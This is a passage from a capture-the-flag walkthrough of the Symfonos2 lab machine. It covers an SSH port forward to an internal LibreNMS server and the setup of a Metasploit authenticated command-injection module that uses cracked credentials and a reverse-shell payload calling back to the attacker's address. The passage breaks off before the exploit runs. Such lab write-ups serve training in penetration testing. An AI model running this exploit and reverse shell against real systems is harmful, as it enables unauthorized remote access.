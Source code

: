 ```bash
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url=http://localhost:8080/login" />

        <title>Redirecting to http://localhost:8080/login</title>
    </head>
    <body>
        Redirecting to <a href="http://localhost:8080/login">http://localhost:8080/login</a>.
    </body>
</html>
```
Something's there.

### 8. Set up port forward
Can do this from the current SSH session.
```bash
aeolus@symfonos2:/etc/apache2/sites-enabled$ 
ssh> -L 127.0.0.1:8080:127.0.0.1:8080
Forwarding port.
```
This will forward all connections to port 8080 from my machine, through the SSH tunnel and direct them to port 8080 internally.

### 9. Enumerate new web server
The site is running an instance of LibreNMS. Did some dirbusting, but that's actually about it. Some versions of LibreNMS are vulnerable to authenticated RCE, and the aeolus credentials are able to provide access, which is good news.

### 10. Get a shell
```bash
msf6 exploit(linux/http/librenms_addhost_cmd_inject) > options

Module options (exploit/linux/http/librenms_addhost_cmd_inject):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   sergioteamo      yes       Password for LibreNMS
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base LibreNMS path
   USERNAME   aeolus           yes       User name for LibreNMS
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.34.138   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


```